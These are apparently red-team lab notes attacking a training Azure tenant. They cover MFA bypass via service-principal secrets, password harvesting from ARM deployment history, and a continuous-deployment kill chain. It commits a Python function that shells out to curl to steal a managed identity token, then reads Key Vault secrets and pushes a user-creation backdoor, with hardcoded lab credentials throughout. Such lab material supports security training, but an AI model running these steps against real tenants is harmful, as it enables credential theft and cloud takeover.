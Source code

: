 # Enterprise Applications

* Any application registered in Entra ID has two representations
  * Application (in PowerShell terminology) object that is present only in the tenant where app is registered. This is visible under App Registrations in the Azure portal.
  * Service Principal (in PowerShell terminology) that is present in every directory where application is used (in case of a multi-tenant application). This is visible under Enterprise Applications in the Azure portal. Azure RBAC roles use service principal.
* "An application has one application object in its home directory that is referenced by one or more service principals in each of the directories where it operates (including the application's home directory)"
* Service Principals (Enterprise Applications) are instances of the Application.

**Client Secrets**

* An application object supports multiple client secrets (application passwords).
* A user that is owner or have application administrator role over an application can add an application password.
* An application password can be used to login to a tenant as a service principal. MFA is usually not applied on a service principal!
* If we can compromise a user that has enough permissions to create a client secret/application password for an application object, we can
  * Login as the service principal for that application
  * Bypass MFA
  * Access all the resources where roles are assigned to the service principal
  * Add credentials to an enterprise applications for persistence after compromising a tenant

### Azure Resource Manager (ARM) Templates

* The 'infrastructure as code' service for Azure to deploy resources using code.
* ARM templates are JSON files containing deployment configuration forAzure resources.
* ARM templates also support a language called Bicep.
* Each resource group maintains a deployment history for up to 800 deployments. The history is automatically deleted when the count exceeds 775 deployments.
* Deployment history is a rich source of information!
* Any user with permissions `Microsoft.Resources/deployments/read` and `Microsoft.Resources/subscriptions/resourceGroups/read` can read the deployment history.
* Useful information can be extracted from deployment history.
* It gives us the ability to have information about the resources that are not presently deployed but may be deployed again in future!
* A deployment parameter that contains sensitive information like passwords should have `SecureString` type. In case of a poorly written deployment template - that uses 'String' for such a parameter - we can get password in clear-text!

**Checking the managed Identity**

```powershell
$passwd = ConvertTo-SecureString "V3ryH4rdt0Cr4ckN0OneCanGu3ssP@ssw0rd" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("test@defcorphq.onmicrosoft.com", $passwd)
Connect-AzAccount -Credential $creds

$Token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token
Connect-MgGraph -AccessToken ($Token | ConvertTo-SecureString -AsPlainText -Force)
Get-MgServicePrincipal -All | ?{$_.AppId -eq "62e44426-5c46-4e3c-8a89-f461d5d586f2"} | fl
```

**Using previously added application secret**

```powershell
$password = ConvertTo-SecureString '3Xv8Q~g-JzFY3PxHgo~mG-VWyw4nX6XqR-ACZadO' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('f072c4a6-b440-40de-983f-a7f3bd317d8f', $password)
Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant 2d50cb29-5f7b-48a4-87ce-fe75a941adb6

Get-AzResource
Get-AzKeyVaultSecret -VaultName credvault-fileapp
Get-AzKeyVaultSecret -VaultName credvault-fileapp -Name MobileUsersBackup -AsPlainText

# $username = "thomasebarlow@defcorpit.onmicrosoft.com";$password="DeployM3ntUserInTh3Tan3nt!!"
```

### Function App - Continuous Deployment

* Functions Apps (Azure Functions) support continuous deployment.
* In case continuous deployment is used, a source code update triggers a deployment to Azure.
* Following source code locations are supported
  * Azure Repos
  * GitHub
  * Bitbucket
* Deployment slots are supported so that deployments are first done in slots like staging (to avoid deploying directly in the default production slot)
* A misconfigured function app that deploys directly in production can be abused.
* In this case, if the source of truth/code location is compromised, it will be possible to assume the identity of the function app.
* For example, if GitHub is used as the provider, compromise of a GitHub account that can commit code will lead to compromise of the function app.

#### Kill Chain

1. Recall that we extract app.zip from one of the storage accounts. One of the files contained GitHub credentials for two users – `jenniferazad` and `laurenazad`. However, both the users have two factor authentication enabled.
2. Using authenticator.txt that contains backup of a GitHub's Time-based OTP (TOTP) app for `laurenazad`! Import it into Chrome's Google Authenticator extension.
3. Go to the SimpleApps repository - [https://github.com/DefCorp/SimpleApps](https://github.com/DefCorp/SimpleApps) The README of the repository tells us that – ' This repo is a part of the CI/CD pipeline used for testing various function app features.' and it contains URL of a function app - [https://simpleapps.azurewebsites.net/api/Student43](https://simpleapps.azurewebsites.net/api/Student43)
4. Check [**iniy.py**](http://iniy.py) in the directory for your student ID - [https://github.com/DefCorp/SimpleApps/blob/main/Student43/\_\_init\_\_.py](https://github.com/DefCorp/SimpleApps/blob/main/Student43/__init__.py)
5. Use your student ID in the URL in the README and browse to it using Chrome: [https://simpleapps.azurewebsites.net/api/student43](https://simpleapps.azurewebsites.net/api/student43)
6. Edit the [**init.py**](http://init.py) in your student**x** directory in the repo and paste the following code that gets an access token if there is a managed identity used by the function app. Recall that this is the code that we got from app.zip from the defcorpbackup storage account:

```powershell
import logging, os
import azure.functions as func

def main(req: func.HttpRequest) -> func.HttpResponse:
	logging.info('Python HTTP trigger function processed a request.')
	IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
	IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
	cmd = 'curl "%s?resource=https://management.azure.com&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
	val = os.popen(cmd).read()
	return func.HttpResponse(val, status_code=200)
```

1. Commit the changes! Now wait for a couple of minutes and deploy the changes to the function app by browsing to [https://simpleapps.azurewebsites.net/api/student43\*\*.\*\*](https://simpleapps.azurewebsites.net/api/student43**.**) You will get the access token of the managed identity:

```powershell
$accesstoken = 'eyJ0…'
Connect-AzAccount -AccessToken $AccessToken -AccountId 95f40eea-6653-4e11-b545-d9c2f5f90a29
Get-AzResourceGroup
Get-AzResourceGroupDeployment -ResourceGroupName SAP
Save-AzResourceGroupDeploymentTemplate -ResourceGroupName SAP -DeploymentName stevencking_defcorphq.onmicrosoft.com.sapsrv

(cat C:\\AzAD\\Tools\\stevencking_defcorphq.onmicrosoft.com.sapsrv.json |ConvertFrom-Json |select -ExpandProperty Resources).resources.Properties.Settings.CommandToExecute
Disconnect-AzAccount
```

```powershell
$password = ConvertTo-SecureString "St0rage@ccountsCanReadSt3v3n!!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('stevencking@defcorphq.onmicrosoft.com', $Password)
Connect-AzAccount -Credential $creds

Get-AzResource
Get-AzStorageContainer -Context (New-AzStorageContext -StorageAccountName defcorpcodebackup)
```

```powershell
mkdir C:\\Users\\studentuser43\\.ssh
copy id_rsa C:\\Users\\studentuser43\\.ssh\\ 
cd C:\\AzAD\\Tools

ssh -T git@github.com
git clone git@github.com:DefCorp/CreateUsers.git

cd CreateUsers
mkdir student43
copy C:\\AzAD\\Tools\\CreateUsers\\Example\\user.json C:\\AzAD\\Tools\\CreateUsers\\student43\\user.json

git add .
git config --global user.email "81172144+jenniferazad@users.noreply.github.com"
git config --global user.name "jenniferazad"
git commit -m "Update"
git push
```

```powershell
{
 "accountEnabled": true,
 "displayName": "student2802",
 "mailNickname": "student2802",
 "userPrincipalName": "student2802@defcorphq.onmicrosoft.com",
 "passwordProfile" : {
   "forceChangePasswordNextSignIn": false,
   "password": "Stud2802Password@123"
 }
}

```

> Browse [https://createusersapp.azurewebsites.net/api/CreateUsersApp?id=43](https://createusersapp.azurewebsites.net/api/CreateUsersApp?id=43)


